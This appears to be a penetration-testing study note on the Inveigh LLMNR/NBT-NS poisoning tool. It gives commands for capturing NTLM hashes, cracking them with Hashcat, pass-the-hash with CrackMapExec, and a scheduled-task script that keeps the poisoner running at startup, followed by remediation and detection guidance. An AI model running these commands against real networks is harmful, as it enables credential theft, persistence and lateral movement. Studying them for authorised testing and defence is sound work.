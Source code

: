 ## 1. Inveigh Overview:
- **Purpose:** A Windows-based tool for LLMNR/NBT-NS poisoning, similar to Responder.
- **Languages:** Written in PowerShell and C#.
- **Protocols:** Supports LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTP, HTTPS, SMB, LDAP, WebDAV, and Proxy Auth.
- **Availability:** Found in the `C:\Tools` directory on the provided Windows attack host.
- **Versions:**
  - PowerShell (original, no longer updated)
  - C# (InveighZero, maintained by the author)

## 2. Using Inveigh (PowerShell):

### Importing the Module:
```powershell
Import-Module .\Inveigh.ps1
```

### Listing Parameters:
```powershell
(Get-Command Invoke-Inveigh).Parameters
```

### Running Inveigh:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
- Enables NBNS spoofing, console output, and file output.
- Displays enabled/disabled options, captured LLMNR and mDNS requests, SMB negotiation, and NTLM challenges.
- Saves output to the `C:\Tools` directory.

### Stopping Inveigh (PowerShell):
```powershell
Stop-Inveigh
```

## 3. Using Inveigh (C# - InveighZero):

### Execution:
```powershell
.\Inveigh.exe
```

### Output:
- Displays enabled/disabled options.
- Indicates successful and failed listeners.
- Captures LLMNR requests.

### Interactive Console:
- Press `ESC` to enter the interactive console.
- Use the `HELP` command for a list of available console commands.

### Common Commands:
- `GET NTLMV2UNIQUE` - Displays unique captured NTLMv2 hashes.
- `GET NTLMV2USERNAMES` - Displays captured usernames.

## 4. Inveigh Console Commands:
- `GET CONSOLE`
- `GET DHCPv6Leases`
- `GET LOG`
- `GET NTLMV1`
- `GET NTLMV2`
- `GET NTLMV1UNIQUE`
- `GET NTLMV2UNIQUE`
- `GET NTLMV1USERNAMES`
- `GET NTLMV2USERNAMES`
- `GET CLEARTEXT`
- `GET CLEARTEXTUNIQUE`
- `GET REPLYTODOMAINS`
- `GET REPLYTOHOSTS`
- `GET REPLYTOIPS`
- `GET REPLYTOMACS`
- `GET IGNOREDOMAINS`
- `GET IGNOREHOSTS`
- `GET IGNOREIPS`
- `GET IGNOREMACS`
- `SET CONSOLE`
- `HISTORY`
- `RESUME`
- `STOP`

## 5. Remediation:

### Disable LLMNR:
- **Group Policy:**
  - `Computer Configuration -> Administrative Templates -> Network -> DNS Client -> "Turn OFF Multicast Name Resolution."`

### Disable NBT-NS:
- Navigate to:
  - `Network and Sharing Center -> Change adapter settings -> Adapter properties -> Internet Protocol Version 4 (TCP/IPv4) -> Advanced -> WINS -> Disable NetBIOS over TCP/IP.`

### PowerShell GPO Startup Script:
```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```
- Deploy using Group Policy Management.

### Other Mitigations:
- Filtering network traffic.
- Enabling SMB Signing.
- Using network intrusion detection and prevention systems.
- Implementing network segmentation.

## 6. Detection:

- **Honeypotting:** Inject LLMNR/NBT-NS requests for non-existent hosts.
- **Traffic Monitoring:** Monitor ports UDP 5355 and 137.
- **Event Log Monitoring:** Focus on Event IDs `4697` and `7045`.
- **Registry Monitoring:**
  - `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient\EnableMulticast` (0 = disabled)
- **Sysmon:** Monitor for suspicious process creations or network connections.

## 7. Post-Capture Actions:

### Enumeration:
- Use BloodHound for analyzing captured hashes.

### Hash Cracking with Hashcat:
```powershell
hashcat -m 5600 captured_hashes.txt rockyou.txt --force
```

### Identify Hash Types:
```powershell
hashid captured_hash.txt
```

### Using CrackMapExec for Exploitation:
```powershell
crackmapexec smb <target-ip> -u <username> -H <hash>
```

### Password Spraying:
- Employ password spraying techniques if hash cracking is unsuccessful.

## 8. Automation Example (Scheduled Task for Persistence):

```powershell
$Action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-File "C:\Tools\Inveigh.ps1"'
$Trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $Action -Trigger $Trigger -TaskName "InveighPersistence" -Description "Auto-start Inveigh for LLMNR/NBT-NS Poisoning"
```

## 9. Real-World Workflow Example:
1. Launch Inveigh to capture hashes.
2. Use Hashcat to crack captured NTLMv2 hashes.
3. Attempt lateral movement using cracked credentials with CrackMapExec.
4. Continue enumeration or privilege escalation as needed.

## 10. Defensive Recommendation Summary:
- Disable LLMNR and NBT-NS protocols.
- Enforce SMB signing.
- Monitor network traffic for suspicious poisoning attempts.
- Implement strict network segmentation and authentication controls.
